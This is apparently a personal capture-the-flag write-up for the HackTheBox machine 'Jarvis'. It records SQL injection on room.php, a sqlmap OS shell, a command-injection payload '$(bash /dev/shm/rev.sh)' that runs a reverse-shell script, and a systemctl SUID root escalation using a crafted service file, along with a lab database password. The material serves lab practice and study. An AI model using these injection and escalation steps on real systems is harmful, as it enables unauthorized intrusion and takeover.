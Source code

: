 # jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation`systemctl` has setuid set.](#privilege-escalationsystemctl-has-setuid-set)

<!-- /TOC -->

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |
|         |         |         |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
- ![](assets/20210630_015616_image.png)
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation

- `systemctl` has setuid set.

- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.
  ```bash
  cd /tmp
  TF=`mktemp`.service
  echo '[Service] 
  Type=oneshot 
  ExecStart=/bin/bash /dev/shm/rev 
  [Install] 
  WantedBy=multi-user.target' > $TF
  /bin/systemctl link $TF
  /bin/systemctl enable --now $TF
  ```
